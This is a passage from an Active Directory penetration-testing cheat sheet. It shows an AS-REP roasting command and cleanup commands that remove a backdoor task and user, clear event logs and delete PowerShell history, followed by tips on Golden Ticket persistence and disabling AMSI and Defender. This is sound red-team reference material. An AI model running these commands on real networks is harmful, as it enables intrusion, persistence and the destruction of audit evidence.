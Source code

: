 #### **Brute Force Kerberos TGT Request (AS-REP Brute Force)**
```powershell
Invoke-ASREPRoast -Domain DOMAIN -UsersFile users.txt
```

---

### **10. Cleaning Up**

#### **Remove Scheduled Task**
```powershell
Unregister-ScheduledTask -TaskName "BackdoorTask" -Confirm:$false
```

#### **Delete Created User**
```powershell
Remove-ADUser -Identity "Backdoor"
```

#### **Clear Event Logs**
```powershell
Clear-EventLog -LogName "Application"
```

#### **Clear PowerShell History**
```powershell
Remove-Item (Get-PSReadlineOption).

HistorySavePath
```

---

### **Key Tips for Active Directory Pentesting**

- **Kerberoasting**: Always look for service accounts with SPNs that are vulnerable to Kerberoasting. This is a common AD misconfiguration.
- **Lateral Movement**: Abuse protocols like WMI, PowerShell remoting, and SMB for lateral movement.
- **Persistence**: Use techniques like Golden Tickets and Skeleton Keys to establish long-term persistence.
- **Evasion**: Disable or bypass security features such as AMSI and Windows Defender to prevent detection.
- **Privilege Escalation**: Look for unconstrained delegation, misconfigured trusts, and high-privilege accounts to escalate privileges.

---

This cheat sheet should serve as a quick reference guide for attacking Active Directory environments during red team operations or penetration tests. Always ensure you have the proper authorization before conducting any security testing!